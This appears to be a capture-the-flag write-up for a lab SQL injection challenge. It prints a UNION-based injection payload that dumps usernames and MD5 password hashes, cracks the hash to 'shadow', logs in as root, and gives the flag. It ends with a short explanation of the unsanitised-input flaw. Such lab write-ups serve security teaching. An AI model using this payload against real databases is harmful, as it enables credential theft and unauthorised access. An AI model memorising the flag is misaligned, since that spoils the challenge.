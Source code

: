 # <span style="text-decoration: underline"> DB_DEFAULT </span>

- Tags : `SQL Injection`
- Server ip : `192.168.1.23 `
- Difficulty : <span style="color : green">Easy</span>
___


# <span style="text-decoration: underline">problem</span>

From the [member](/member.md) challenge we have found that there is a table called `db_default` of the database `Member_Brute_Force` that contains the following columns

- id
- username
- password

Let's try to see if we can findout anything interesting in that database!

# <span style="text-decoration: underline">Solution</span>

## Extract more contents from the table `db_default`

During the [member](/member.md) challenge we have found out what `table` contains what `column` name

|No|Table|Column names|
|--|--|--|
|1| **db_default** | `id`, `username`, `password` |
|2| **users** | `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`,  |
|3| **guestbook** | `id_comment` , `comment`, `name` |
|4| **list_images** | `id`, `url`, `title`, `comment` |
|5| **vote_dbs** | `id_vote`, `nb_vote`, `subject`|


Let's try to get the contents of this table

!> Remember that if we try to access a table that is not present in the default database but in some other database then we have to use the following syntax `database.table`


```sql
1 AND 1=2 UNION SELECT username, CONCAT(CHAR(124), id, CHAR(124), username, CHAR(124), password, CHAR(124)) AS name FROM Member_Brute_Force.db_default --
```

We get the following informations

|Id|Username|Password|
|--|--|--|
|1|root|3bf1114a986ba87ed28fc1b5884fc2f8|
|2|admin|3bf1114a986ba87ed28fc1b5884fc2f8|

We can see the that we have 2 users contining `md5` hash as their password. We allready know the password for the user **admin** thanks to the [brutforce](/brutforce.md) challenge which is `shadow`. We can easily verify that the `md5` hash of the word `shadow` is `3bf1114a986ba87ed28fc1b5884fc2f8` using the following command on **Linux** `echo -n "shadow" | md5sum` and and **MacOs**  `echo -n "shadow" | md5`

And we can see that the both user password hash is "3bf1114a986ba87ed28fc1b5884fc2f8" thus `shadow` being the password for both of them.

And when we try to login using the following credentials 
|username|password|
|--|--|
|root|shadow|

We get the flag `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`.

> This is the same flag as for the `brutforce` challenge where we logged is as the user **admin** using the password `shadow`

# How to avoid the problem

Sql injection could be a dengerouis problem which could as fas as compromise the whole system. in our situation the programmer used the raw **user input** data inside the query which in turn let the user control what the quert string becomes and so the result is given. This kind of situation can be avoided easily by not using the user input directly in our string.


# Flag

```text
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```
